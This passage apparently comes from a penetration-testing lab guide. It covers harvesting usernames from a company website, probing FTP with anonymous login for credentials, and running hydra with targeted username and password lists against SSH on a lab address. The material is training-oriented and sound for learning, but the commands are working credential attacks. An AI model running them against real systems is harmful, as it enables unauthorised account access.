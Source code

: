 **3. Builds Your Attack Foundation**
```
From website: "Alice Adams - aadams@company.com"
Intelligence: Username likely "aadams"
Strategy: Use in targeted password attacks
```

##### **📁 Then FTP Services**
```bash
ftp 172.20.0.5
# Try: anonymous/anonymous
# Look for: configuration files, documents, credentials
```

**Why FTP Second:**
- Often misconfigured with anonymous access
- May contain sensitive files  
- Provides additional intelligence for attacks
- **Semi-passive** - connecting but not attacking, just exploring

---

### **Phase 4: Targeted Exploitation** ⚔️
**Goal:** Launch precise attacks using gathered intelligence

```bash
# Create targeted username list from web intelligence
echo "aadams" > users.txt
echo "bbanter" >> users.txt
echo "ccoffee" >> users.txt

# Create smart password list based on company/patterns
echo "nostaw" > passwords.txt    # "watson" backwards
echo "company123" >> passwords.txt
echo "password" >> passwords.txt

# Launch targeted attack
hydra -L users.txt -P passwords.txt 172.20.0.4 ssh -s 2222
```

---

## Strategy Comparison

### ❌ **Amateur Approach: Random Attacks**
```bash
# Blind brute force - ineffective and noisy
hydra -L /usr/share/wordlists/common-users.txt -P /usr/share/wordlists/rockyou.txt target ssh
```
**Problems:**
- Low success rate
- Easily detected
- Takes excessive time
- May trigger account lockouts
